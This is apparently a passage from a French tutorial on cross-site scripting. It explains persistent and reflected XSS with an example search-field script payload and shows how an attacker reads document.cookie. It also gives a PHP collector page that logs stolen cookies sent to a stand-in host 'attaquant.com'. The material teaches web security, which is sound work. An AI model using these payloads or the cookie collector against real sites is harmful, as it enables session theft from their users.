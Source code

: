 Ce code html est valide et exécute du javascript au sein du navigateur de l'utilisateur alors que ce n'était pas voulu par le développeur à l'origine.

Il suffit alors d'envoyer la page contenant l'image à une autre personne pour exécuter du javascript dans le navigateur de l'autre utilisateur. Comme le code injecté est enregistré par le serveur, et qu'il ne disparait pas au rafraichissement de la page, on appelle cela une attaque XSS persistante.

Lorsque le code injecté n'est pas persistant, alors c'est une attaque XSS non persistante. C'est par exemple le cas dans un formulaire de recherche, et que le contenu de la recherche est affiché à l'écran

```html
<p>L'utilisateur Pixis n'existe pas.</p>
```

Si nous envoyons `Pixis<script>alert('hackndo');</script>` alors la réponse sera 

```html
<p>L'utilisateur Pixis<script>alert('hackndo');</script> n'existe pas.</p>
```

Le javascript `alert` sera exécuté, mais seulement pour nous, puisqu'il faut lancer la recherche avec le champ bien choisi pour que ce code soit injecté dans la page. Quand un autre utilisateur arrive sur la page de recherche, notre code javascript n'est pas présent sur la page, donc il ne se passera rien.

## Premiers risques

Contrairement à ce que nous pourrions penser, le fait que la charge utile soit exécutée côté client est bel et bien un risque pour l'utilisateur. En effet, le client possède plusieurs informations secrètes et utiles pour l'attaquant, il a également des extensions dans son navigateur qui peuvent avoir des vulnérabilités.

Jusque-là, nous avons seulement affiché une pop-up dans la navigateur de la victime, mais nous allons aller un peu plus loin et voler les cookies de l'utilisateur sur le site vulnérable. Pour cela, nous utiliserons la propriété [cookie](https://developer.mozilla.org/fr/docs/Web/API/Document/cookie){:target="blank"} du document (sous réserve que les cookies ne soient pas [protégés](https://www.information-security.fr/securite-sites-web-lutilite-flags-secure-httponly/){:target="blank"})

```javascript
document.cookie
```

Cela permet de récupérer les cookies de l'utilisateur associés au domaine+port. Une fois que les cookies ont été chargés dans le navigateur de la victime, il faut que l'attaquant les récupère. Plusieurs solutions sont possibles, mais une solution commune est que l'attaquant a préparé un serveur de son côté avec une page qui enregistre la valeur d'un paramètre `http://attaquant.com/get.php?v=<valeur>`. Du côté de l'attaquant, quand cette page est accédée avec une valeur, elle sera par exemple enregistrée dans un fichier texte.

Voici un exemple minimaliste de page

```php
// get.php
<?php
  $cookie = $_GET['v'] . "\n";
  file_put_contents("cookies.txt", $cookie, FILE_APPEND | LOCK_EX);
```
